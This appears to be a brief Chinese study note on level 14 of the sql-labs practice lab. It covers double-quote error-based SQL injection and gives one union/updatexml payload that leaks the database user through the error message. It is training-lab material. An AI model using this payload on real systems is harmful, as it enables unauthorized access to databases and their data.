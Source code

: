title: sql-labs 14关

less-14——基于"的错误回显注入

注入语句：admin" union select updatexml(1,concat(0x7e,(select user()),0x7e),1) --+

![image-20220330102535132](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330102535132.png)
